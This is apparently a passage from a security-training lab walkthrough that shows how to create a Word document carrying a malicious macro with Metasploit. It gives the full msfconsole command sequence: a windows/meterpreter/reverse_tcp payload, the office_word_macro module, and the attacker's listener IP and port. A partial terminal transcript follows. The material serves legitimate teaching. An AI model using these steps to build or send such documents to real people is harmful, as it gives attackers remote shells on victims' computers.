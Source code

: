 Click on the **Start AttackBox** button at the top of the page to follow along with creating this document. The AttackBox machine will start in Split-Screen view. If it is not visible, use the blue **Show Split View** button at the top of the page.

## Attacker’s System

On the AttackBox, you need to carry out two steps:

* Create a document with an embedded malicious macro
* Listen for incoming connections

## Creating the Malicious Document

The first step would be to embed a malicious macro within the document. Alternatively, you can use the Metasploit Framework to create such a document, as this would spare us the need for a system with MS Office.

You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:

* Open a new terminal window and run `msfconsole` to start the Metasploit Framework
* `set payload windows/meterpreter/reverse_tcp`specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell \n 
* `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
* `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
* `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
* `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
* `exploit` generates a macro and embeds it in a document
* `exit` to quit and return to the terminal

In the terminal below, you can see the execution of the above steps.

AttackBox Terminal

```javascript
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/fileformat/office_word_macro) > show options

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CUSTOMTEMPLATE                   no        A docx file that will be used as a template to build the exploit
   FILENAME        msf.docm         yes       The Office document macro file (docm)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```